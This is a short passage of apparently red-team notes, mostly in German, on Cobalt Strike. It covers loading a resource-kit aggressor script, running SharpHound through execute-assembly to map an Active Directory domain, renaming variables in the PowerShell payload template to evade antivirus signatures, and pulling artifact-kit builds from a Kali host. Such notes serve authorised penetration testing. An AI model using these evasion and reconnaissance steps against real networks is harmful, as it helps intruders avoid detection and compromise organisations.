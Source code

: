 Vergiss nicht, das aggressive Skript `ResourceKit\resources.cna` zu laden, um Cobalt Strike anzuweisen, die Ressourcen von der Festplatte zu verwenden, die wir möchten, und nicht die geladenen.
```bash
cd C:\Tools\neo4j\bin
neo4j.bat console
http://localhost:7474/ --> Change password
execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -d DOMAIN.LOCAL



# Change powershell
C:\Tools\cobaltstrike\ResourceKit
template.x64.ps1
# Change $var_code -> $polop
# $x --> $ar
cobalt strike --> script manager --> Load --> Cargar C:\Tools\cobaltstrike\ResourceKit\resources.cna

#artifact kit
cd  C:\Tools\cobaltstrike\ArtifactKit
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .


```

